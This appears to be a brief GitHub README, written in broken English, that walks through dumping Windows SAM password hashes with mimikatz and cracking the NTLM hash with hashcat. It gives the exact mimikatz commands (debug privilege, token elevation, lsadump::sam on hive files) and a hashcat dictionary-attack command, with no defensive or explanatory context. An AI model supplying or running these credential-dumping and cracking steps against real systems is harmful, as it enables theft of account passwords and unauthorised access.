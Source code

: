 # mimkatez

How to use it with hash cat 

first open mimikatez then write the  blow commands :

privilege::debug
token::elevate
log hash.txt
lsadump::sam filename1.hiv filename2.hiv

Now close mimikatez and open hash.txt and use notepad for findig NTLM and make new file as text , write like this :

Administrator:NTMLHASH

Last Part use this command :

hashcat -m 1000 -a 0 --force --show --username hash.txt wordlist1.lst 

Notice : you must have passwordlist like wordlist1.lst
